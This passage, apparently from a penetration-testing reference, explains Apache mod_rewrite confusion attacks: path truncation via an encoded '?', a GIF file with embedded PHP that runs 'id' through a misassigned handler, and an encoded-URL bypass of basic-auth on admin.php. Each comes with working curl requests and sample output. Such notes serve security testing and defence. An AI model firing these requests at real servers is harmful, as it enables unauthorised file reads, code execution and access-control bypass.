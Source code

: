 * **Path Truncation**

It's possible to abuse `mod_rewrite` like in the following rule example to access other files inside the file system, removing the last part of the expected path adding simply a `?`:

```bash
RewriteEngine On
RewriteRule "^/user/(.+)$" "/var/user/$1/profile.yml"

# Expected
curl http://server/user/orange
# the output of file `/var/user/orange/profile.yml`

# Attack
curl http://server/user/orange%2Fsecret.yml%3F
# the output of file `/var/user/orange/secret.yml`
```

* **Mislead RewriteFlag Assignment**

In the following rewrite rule, as long as the URL ends in .php it's going to be treated and executed as php. Therefore, it's possible send a URL that ends in .php after the `?` char while loading in the path a different type of file (like an image) with malicious php code inside of it:

```bash
RewriteEngine On
RewriteRule  ^(.+\.php)$  $1  [H=application/x-httpd-php]

# Attacker uploads a gif file with some php code
curl http://server/upload/1.gif
# GIF89a <?=`id`;>

# Make the server execute the php code
curl http://server/upload/1.gif%3fooo.php
# GIF89a uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### **ACL Bypass**

It's possible to access files the user shouldn't be able to access even if the access should be denied with configurations like:

```xml
<Files "admin.php">
    AuthType Basic 
    AuthName "Admin Panel"
    AuthUserFile "/etc/apache2/.htpasswd"
    Require valid-user
</Files>
```

This is because by default PHP-FPM will receive URLs ending in `.php`, like `http://server/admin.php%3Fooo.php` and because PHP-FPM will remove anything after the character `?`, the previous URL will allow to load `/admin.php` even if the previous rule prohibited it.

### DocumentRoot Confusion
